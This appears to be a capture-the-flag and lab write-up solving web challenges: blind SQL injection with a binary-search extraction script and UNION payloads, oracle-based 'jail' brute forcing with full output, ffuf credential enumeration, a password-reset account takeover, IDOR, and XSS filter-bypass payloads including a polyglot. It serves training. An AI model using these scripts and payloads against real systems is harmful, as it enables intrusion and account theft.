

# Web 3

### Problem - 01 :

***WaF***

You can't get the /flag.txt ever.

Link : [http://45.56.66.96:7789/](http://45.56.66.96:7789/)

Solution :




### Problem - 02 : ( **Blind SQL Injection with Binary Search** )

***Admin Panel***

Login and get the flag.

[http://50.116.19.213:3000/](http://50.116.19.213:3000/)

Alternaive Link [http://149.102.136.203:3000/](http://149.102.136.203:3000/)

Solution :

**SQLMap WILL NOT WORK for this challenge because** for **Custom WAF Rules .**

python script ,

```python
import requests
import time

url = "http://50.116.19.213:3000/login"
flag = ""

session = requests.Session()

def check(payload):
    raw_data = f"username=\&password={payload}"
    retries = 10
    while retries > 0:
        try:
            r = session.post(url, data=raw_data, headers={"Content-Type": "application/x-www-form-urlencoded"}, allow_redirects=False, timeout=10)
            if r.status_code == 302:
                return True
            if r.status_code == 400:
                return False
        except Exception as e:
            pass
        retries -= 1
        time.sleep(1)
    raise Exception(f"Failed to get response for payload: {payload}")

for i in range(1, 100):
    low = 32
    high = 126
    found_char = None
    
    while low <= high:
        mid = (low + high) // 2
        try:
            if check(f" OR ascii(substring((TABLE flag LIMIT 1), {i}, 1)) > {mid} -- -"):
                low = mid + 1
            else:
                if check(f" OR ascii(substring((TABLE flag LIMIT 1), {i}, 1)) = {mid} -- -"):
                    found_char = chr(mid)
                    break
                else:
                    high = mid - 1
        except Exception as e:
            print(e)
            time.sleep(5)
            continue
                
    if found_char:
        flag += found_char
        print(f"Flag so far: {flag}")
        if found_char == ")":
            print(f"Final flag: {flag}")
            exit()
    else:
        print(f"No more characters found at index {i}.")
        break
```

***one line injection ,***

> user: \
password: or 1=0 uNiOn sElEcT gRoUp_cOnCaT(vAlUe), 1 fRoM flag-- -
> 


more one line injection ,

```python
username=\&password=UNION SELECT value, 2 FROM flag #
```

```python
username: \
password: union select *,2 from flag-- -
```

### Problem - 03 :

**Knight Squad Academy Jail**

I don't like words but I love chars.

Flag Format : KCTF{flag}

Solution :

```python
┌──(kali㉿kali)-[~/Web]
└─$ nc 66.228.49.41 1337
== KSA Jail ==
> 1+1    
2
> {{7*7}}
error: node not allowed: Set
> L(0)
error: Oracle.L() takes 1 positional argument but 2 were given
> L()
28
> S('KCTF{')
'Nope.'
> Q(0)
error: Oracle.Q() missing 1 required positional argument: 'x'
> Q(01)
error: syntax error
> Q(0,1)
-1
> Q(0,2)
-1

```

1. With “L” function we get the length of the flag ,
2. “Q” is to search the position of the flag with ascii charactar ,
3. “S” function to check the validity of the flag

The ultimate python script ,

```python
import socket
import re
import time

HOST = "66.228.49.41"
PORT = 1337

TIMEOUT = 3

# ASCII range to search (printable)
LOW = 32
HIGH = 126

def oracle(i, x):
    """Send Q(i,x) and return -1, 0, or 1"""
    payload = f"Q({i},{x})\n"

    try:
        s = socket.socket()
        s.settimeout(TIMEOUT)
        s.connect((HOST, PORT))

        s.recv(4096)  # banner
        s.sendall(payload.encode())

        data = ""
        while True:
            chunk = s.recv(4096).decode(errors="ignore")
            if not chunk:
                break
            data += chunk

            # extract first integer from response
            m = re.search(r"-?\d+", data)
            if m:
                val = int(m.group())

                print(f"[REQ] Q({i},{x}) -> {val}")

                s.close()
                return val

    except Exception as e:
        print(f"[ERR] Q({i},{x}) -> {e}")

    finally:
        try:
            s.close()
        except:
            pass

    return None

def find_char(i):
    lo, hi = LOW, HIGH

    while lo <= hi:
        mid = (lo + hi) // 2
        res = oracle(i, mid)

        if res is None:
            continue  # retry

        if res == 0:
            print(f"[+] Found position {i}: {chr(mid)}")
            return chr(mid)

        elif res == -1:  # guess too low
            lo = mid + 1

        elif res == 1:   # guess too high
            hi = mid - 1

        time.sleep(0.05)  # be gentle on server

    return None

def main():
    flag = ""
    print("[*] Extracting flag using binary search...\n")

    for i in range(100):
        c = find_char(i)

        if not c:
            print("[!] Failed to recover character, stopping.")
            break

        flag += c
        print(f"[FLAG] {flag}\n")

        if c == "}":
            print("\n[✓] FLAG FOUND:", flag)
            return

    print("\n[!] Finished. Partial flag:", flag)

if __name__ == "__main__":
    main()
```

```python
PS C:\Users\VICTUS\OneDrive\Desktop\Test> python -u "c:\Users\VICTUS\OneDrive\Desktop\Test\text.py"
[*] Extracting flag using binary search...

[REQ] Q(0,79) -> 1
[REQ] Q(0,55) -> -1
[REQ] Q(0,67) -> -1
[REQ] Q(0,73) -> -1
[REQ] Q(0,76) -> 1
[REQ] Q(0,74) -> -1
[REQ] Q(0,75) -> 0
[+] Found position 0: K
[FLAG] K

[REQ] Q(1,79) -> 1
[REQ] Q(1,55) -> -1
[REQ] Q(1,67) -> 0
[+] Found position 1: C
[FLAG] KC

[REQ] Q(2,79) -> -1
[REQ] Q(2,103) -> 1
[REQ] Q(2,91) -> 1
[REQ] Q(2,85) -> 1
[REQ] Q(2,82) -> -1
[REQ] Q(2,83) -> -1
[REQ] Q(2,84) -> 0
[+] Found position 2: T
[FLAG] KCT

[REQ] Q(3,79) -> 1
[REQ] Q(3,55) -> -1
[REQ] Q(3,67) -> -1
[REQ] Q(3,73) -> 1
[REQ] Q(3,70) -> 0
[+] Found position 3: F
[FLAG] KCTF

[REQ] Q(4,79) -> -1
[REQ] Q(4,103) -> -1
[REQ] Q(4,115) -> -1
[REQ] Q(4,121) -> -1
[REQ] Q(4,124) -> 1
[REQ] Q(4,122) -> -1
[REQ] Q(4,123) -> 0
[+] Found position 4: {
[FLAG] KCTF{

[REQ] Q(5,79) -> -1
[REQ] Q(5,103) -> 1
[REQ] Q(5,91) -> -1
[REQ] Q(5,97) -> 1
[REQ] Q(5,94) -> -1
[REQ] Q(5,95) -> 0
[+] Found position 5: _
[FLAG] KCTF{_

[REQ] Q(6,79) -> -1
[REQ] Q(6,103) -> -1
[REQ] Q(6,115) -> 1
[REQ] Q(6,109) -> -1
[REQ] Q(6,112) -> 1
[REQ] Q(6,110) -> 0
[+] Found position 6: n
[FLAG] KCTF{_n

[REQ] Q(7,79) -> -1
[REQ] Q(7,103) -> 1
[REQ] Q(7,91) -> -1
[REQ] Q(7,97) -> 1
[REQ] Q(7,94) -> -1
[REQ] Q(7,95) -> 0
[+] Found position 7: _
[FLAG] KCTF{_n_

[REQ] Q(8,79) -> -1
[REQ] Q(8,103) -> -1
[REQ] Q(8,115) -> 1
[REQ] Q(8,109) -> -1
[REQ] Q(8,112) -> 1
[REQ] Q(8,110) -> -1
[REQ] Q(8,111) -> 0
[+] Found position 8: o
[FLAG] KCTF{_n_o

[REQ] Q(9,79) -> -1
[REQ] Q(9,103) -> 1
[REQ] Q(9,91) -> -1
[REQ] Q(9,97) -> 1
[REQ] Q(9,94) -> -1
[REQ] Q(9,95) -> 0
[+] Found position 9: _
[FLAG] KCTF{_n_o_

[REQ] Q(10,79) -> -1
[REQ] Q(10,103) -> -1
[REQ] Q(10,115) -> -1
[REQ] Q(10,121) -> 1
[REQ] Q(10,118) -> -1
[REQ] Q(10,119) -> 0
[+] Found position 10: w
[FLAG] KCTF{_n_o_w

[REQ] Q(11,79) -> -1
[REQ] Q(11,103) -> 1
[REQ] Q(11,91) -> -1
[REQ] Q(11,97) -> 1
[REQ] Q(11,94) -> -1
[REQ] Q(11,95) -> 0
[+] Found position 11: _
[FLAG] KCTF{_n_o_w_

[REQ] Q(12,79) -> -1
[REQ] Q(12,103) -> -1
[REQ] Q(12,115) -> 1
[REQ] Q(12,109) -> -1
[REQ] Q(12,112) -> 1
[REQ] Q(12,110) -> -1
[REQ] Q(12,111) -> 0
[+] Found position 12: o
[FLAG] KCTF{_n_o_w_o

[REQ] Q(13,79) -> -1
[REQ] Q(13,103) -> 1
[REQ] Q(13,91) -> -1
[REQ] Q(13,97) -> 1
[REQ] Q(13,94) -> -1
[REQ] Q(13,95) -> 0
[+] Found position 13: _
[FLAG] KCTF{_n_o_w_o_

[REQ] Q(14,79) -> -1
[REQ] Q(14,103) -> -1
[REQ] Q(14,115) -> 1
[REQ] Q(14,109) -> -1
[REQ] Q(14,112) -> -1
[REQ] Q(14,113) -> -1
[REQ] Q(14,114) -> 0
[+] Found position 14: r
[FLAG] KCTF{_n_o_w_o_r

[REQ] Q(15,79) -> -1
[REQ] Q(15,103) -> 1
[REQ] Q(15,91) -> -1
[REQ] Q(15,97) -> 1
[REQ] Q(15,94) -> -1
[REQ] Q(15,95) -> 0
[+] Found position 15: _
[FLAG] KCTF{_n_o_w_o_r_

[REQ] Q(16,79) -> -1
[REQ] Q(16,103) -> 1
[REQ] Q(16,91) -> -1
[REQ] Q(16,97) -> -1
[REQ] Q(16,100) -> 0
[+] Found position 16: d
[FLAG] KCTF{_n_o_w_o_r_d

[REQ] Q(17,79) -> -1
[REQ] Q(17,103) -> 1
[REQ] Q(17,91) -> -1
[REQ] Q(17,97) -> 1
[REQ] Q(17,94) -> -1
[REQ] Q(17,95) -> 0
[+] Found position 17: _
[FLAG] KCTF{_n_o_w_o_r_d_

[REQ] Q(18,79) -> -1
[REQ] Q(18,103) -> -1
[REQ] Q(18,115) -> 0
[+] Found position 18: s
[FLAG] KCTF{_n_o_w_o_r_d_s

[REQ] Q(19,79) -> -1
[REQ] Q(19,103) -> 1
[REQ] Q(19,91) -> -1
[REQ] Q(19,97) -> 1
[REQ] Q(19,94) -> -1
[REQ] Q(19,95) -> 0
[+] Found position 19: _
[FLAG] KCTF{_n_o_w_o_r_d_s_

[REQ] Q(20,79) -> -1
[REQ] Q(20,103) -> 1
[REQ] Q(20,91) -> -1
[REQ] Q(20,97) -> -1
[REQ] Q(20,100) -> 1
[REQ] Q(20,98) -> -1
[REQ] Q(20,99) -> 0
[+] Found position 20: c
[FLAG] KCTF{_n_o_w_o_r_d_s_c

[REQ] Q(21,79) -> -1
[REQ] Q(21,103) -> 1
[REQ] Q(21,91) -> -1
[REQ] Q(21,97) -> 1
[REQ] Q(21,94) -> -1
[REQ] Q(21,95) -> 0
[+] Found position 21: _
[FLAG] KCTF{_n_o_w_o_r_d_s_c_

[REQ] Q(22,79) -> -1
[REQ] Q(22,103) -> -1
[REQ] Q(22,115) -> 1
[REQ] Q(22,109) -> 1
[REQ] Q(22,106) -> 1
[REQ] Q(22,104) -> 0
[+] Found position 22: h
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h

[REQ] Q(23,79) -> -1
[REQ] Q(23,103) -> 1
[REQ] Q(23,91) -> -1
[REQ] Q(23,97) -> 1
[REQ] Q(23,94) -> -1
[REQ] Q(23,95) -> 0
[+] Found position 23: _
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h_

[REQ] Q(24,79) -> -1
[REQ] Q(24,103) -> 1
[REQ] Q(24,91) -> -1
[REQ] Q(24,97) -> 0
[+] Found position 24: a
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h_a

[REQ] Q(25,79) -> -1
[REQ] Q(25,103) -> 1
[REQ] Q(25,91) -> -1
[REQ] Q(25,97) -> 1
[REQ] Q(25,94) -> -1
[REQ] Q(25,95) -> 0
[+] Found position 25: _
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h_a_

[REQ] Q(26,79) -> -1
[REQ] Q(26,103) -> -1
[REQ] Q(26,115) -> 1
[REQ] Q(26,109) -> -1
[REQ] Q(26,112) -> -1
[REQ] Q(26,113) -> -1
[REQ] Q(26,114) -> 0
[+] Found position 26: r
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h_a_r

[REQ] Q(27,79) -> -1
[REQ] Q(27,103) -> -1
[REQ] Q(27,115) -> -1
[REQ] Q(27,121) -> -1
[REQ] Q(27,124) -> -1
[REQ] Q(27,125) -> 0
[+] Found position 27: }
[FLAG] KCTF{_n_o_w_o_r_d_s_c_h_a_r}

[✓] FLAG FOUND: KCTF{_n_o_w_o_r_d_s_c_h_a_r}

┌──(kali㉿kali)-[~/Web]
└─$ nc 66.228.49.41 1337
== KSA Jail ==
> S("KCTF{_n_o_w_o_r_d_s_c_h_a_r}")
'Correct! 🎉'
```

### Problem - 04 :

**Knight Squad Academy Jail 2**

in the world of Knight Squad Academy jail only a knight can help you!

Solution :

This is **not a shell**, not Python, not a binary exploit.

It is a **custom command parser** that:

- Only allows **very specific inputs**
- Rejects almost everything with:
    - `syntax error`
    - `error`
    - `too short`
    - `too long`

This tells us:

- The attack surface is **tiny**
- We must find the **one allowed function**

```python
┌──(kali㉿kali)-[~/Web]
└─$ nc 66.228.49.41 41567
== Knight Squad Academy Jail 2 ==
> knight()
error
> knight("A")
too short
> knight("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA") 
too short
> knight("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA") # 30 A chars
1 0
> knight("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")   
too long
> knight("||||||||||||||||||||||||||||||")
0 0
> knight("KCTF{||||||||||||||||||||||||}")
6 0
> knight("KCTF{_|||||||||||||||||||||||}")
7 0
> knight('KCTF{_aNOtHER_JAIL_Y0U_bRoKE_}')
GRADUATED ✅
```

Basically in here “knight” was function . It basically checks the correct position of the flag chars of the flag . First we count the length of the flag by seeing the 1 0 as output . 1 0 means  somewhere in the flag there exist “A” as char . 

this payload shows the correct logic that we made is correct →
knight("KCTF{||||||||||||||||||||||||}") gives 6 0 that means 6 chars of the flag position is correct “KCTF{}”

Now , you have to guess the flag by bruteforcing .

### Problem - 05 : ( **Authentication Bypass** )

Solution :


But in “sign up” path ,


So , lets crack the available usernames in that website .


```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=test%40email.com&password=123456&cpassword=123456" -H "Content-Type: application/x-www-form-urlencoded" -u "http://10.48.189.85/customers/signup" -mr "username already exists"
```

Now , with that gotten usernames we can try brute force password to log in with that exist username .


```bash
ffuf -w valid_usernames.txt:PARAM -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:VAL -u "http://10.48.189.85/customers/login" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=PARAM&password=VAL" -fc 200
```

we're using the `-fc` argument to check for an HTTP status code other than 200.
Now with that “rossie” credentials we get the access of the account and we see this , 


Okay now look at the reset password portion . Basically we will use the vulnerability in the reset password field to get a ticket in free→


Now notice this ,

***What is a Logic Flaw?***

A **logic flaw** occurs when an application’s workflow or decision-making logic is incorrectly designed.

The application behaves exactly as coded, but the **security logic can be bypassed, manipulated, or abused** by following an unexpected path.

Logic flaws do **not** rely on injections or malformed input — they exploit **incorrect assumptions** in application logic.

---

***Logic Flaw in Authentication (Example)***

```php
if (url.substr(0,6) === '/admin') {
    // check admin privileges
} else {
    // show page
}
```

- The check is **case-sensitive**
- Only `/admin` triggers authentication
- URLs like `/adMin` bypass the check

➡ Result: **Unauthorized access to admin pages**

---

***Password Reset Logic Flaw (Practical)***

**Normal flow:**

1. User submits email
2. Application verifies the account
3. User submits username
4. Password reset email is sent

---

***Vulnerability Cause***

- Email is sent via **GET** (`?email=`)
- Username is sent via **POST**
- Application later uses `$_REQUEST`

```php
$_REQUEST = $_GET + $_POST
```

⚠️ **POST parameters override GET parameters**

---

***Exploitation Logic***

- Account validation uses **GET email**
- Password reset email is sent using **POST email**
- Attacker supplies victim email in GET
- Attacker supplies own email in POST

➡ Reset link is sent to the attacker

➡ Attacker takes over victim account

---

***Why This Is a Logic Flaw ?***

- No injection used
- No broken syntax
- Valid inputs only
- Flaw exists in **workflow design**

---

***Key Takeaways***

- Avoid mixing GET and POST for sensitive data
- Never use `$_REQUEST` for security decisions
- Always bind validation and action to the same trusted source
- Normalize inputs before comparison

Now , with our own account we will create ticket but with the help of rosie’s account by ours support ticket .


```bash
curl "http://10.48.189.85/customers/reset?email=test%40gmail.com" -H "Content-Type: application/x-www-form-urlencoded" -d "username=rosie&email=hacker@customer.acmeitsupport.thm"
```

After that go to our own account and we will see this →


And, in that ticket this was written →


And, by this way we get the access of the “rosie” account also again without brute forcing with ffuf  like we did earlier . With this we can log in without knowing the pass  but doing just reset password stuff .


### Problem - 06 : ( IDOR )

Solution :

Firstly you'll need to log in. To do this, click on the customer's section and create an account. Once logged in, click on the **Your Account** tab.

The **Your Account** section gives you the ability to change your information such as username, email address and password. You'll notice the username and email fields pre-filled in with your information.


We'll start by investigating how this information gets pre-filled. If you open your browser developer tools, select the network tab and then refresh the page, you'll see a call to an endpoint with the path /api/v1/customer?id=`{user_id}`.

This page returns in JSON format your user id, username and email address. We can see from the path that the user information shown is taken from the query string's id parameter (see below image).


and , with that we will get the IDOR vulnerability .


You can try testing this id parameter for an IDOR vulnerability by changing the id to another user's id.

### Problem - 07 : ( SSRF )

Solution :

Some, SSRF examples →


### Problem - 08 : ( XSS )

**Intro to Cross-site Scripting ( Premium room , Tryhackme )**

The aim for each level will be to execute the JavaScript alert function with the string THM, for example:

`<script>alert('THM');</script>`

Solution :

**Level One:**

You're presented with a form asking you to enter your name, and once you've entered your name, it will be presented on a line below, for example:


If you view the Page Source, You'll see your name reflected in the code:


Instead of entering your name, we're instead going to try entering the following JavaScript Payload: `<script>alert('THM');</script>`

Now when you click the enter button, you'll get an alert popup with the string **THM** and the page source will look like the following:


And then, you'll get a confirmation message that your payload was successful with a link to the next level.

**Level Two:**

Like the previous level, you're being asked again to enter your name. This time when clicking enter, your name is being reflected in an input tag instead:


Viewing the page source, you can see your name reflected inside the value attribute of the input tag:


It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: `"><script>alert('THM');</script>`

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

**Level Three:**

You're presented with another form asking for your name, and the same as the previous level, your name gets reflected inside an HTML tag, this time the textarea tag.


We'll have to escape the textarea tag a little differently from the input one (in Level Two) by using the following payload: `</textarea><script>alert('THM');</script>`

This turns this:


Into This:


The important part of the above payload is `</textarea>`, which causes the textarea element to close so the script will run.

Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

**Level Four:**

Entering your name into the form, you'll see it reflected on the page. This level looks similar to level one, but upon inspecting the page source, you'll see your name gets reflected in some JavaScript code.


You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload `';alert('THM');//`  which you'll see from the below screenshot will execute your code. The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

**Level Five:**

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.


The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original Payload:**

```bash
<sscriptcript>alert('THM');</sscriptcript>
```

**Text to be removed (by the filter):**

```bash
<sscriptcript>alert('THM');</sscriptcript>
```

**Final Payload (after passing the filter):**

```bash
<script>alert('THM');</script>
```

Try entering the payload `<sscriptcript>alert('THM');</sscriptcript>` and click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful with a link to the next level.

**Level Six:**

Similar to level two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.


You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');` and then viewing the page source, and you'll see how this will work.


Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```


###